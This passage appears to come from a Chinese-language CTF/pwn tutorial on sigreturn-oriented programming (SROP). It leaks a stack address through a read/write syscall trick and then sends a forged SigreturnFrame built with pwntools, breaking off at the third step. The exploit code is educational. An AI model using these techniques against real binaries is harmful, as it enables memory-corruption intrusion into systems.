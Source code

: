 调用了read系统调用

```
#define __NR_read 0
#define __NR_write 1
#define __NR_rt_sigreturn 15
```

并将输入的数据放在rsp（栈）上，限制大小为0x400，其它啥都没了

（1）一开始调用read系统调用，传入0x400b3的地址

（2）调用main函数，传入0xb3，返回值不变，read读入一个字节，返回1，此时rax为1，此时系统调用变成write，泄露栈中的数据，得到栈的地址

（3）第二次调用read系统调用，传入伪造的SigreturnFrame，如下：

```
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
p.send(payload)
```
栈的返回地址为0x400b0，回到程序起始继续read操作（伪造的SigreturnFrame是打算调用read(0, stack_addr, 0x400)系统调用）
此时栈信息如下：

![](../image/2019-12-13-srop、brop和ret2_csu_init技术分析/11.png)

（4）第三次调用read函数，传入：
```
sigreturn = p64(syscall_ret) + 'a' * 7
```
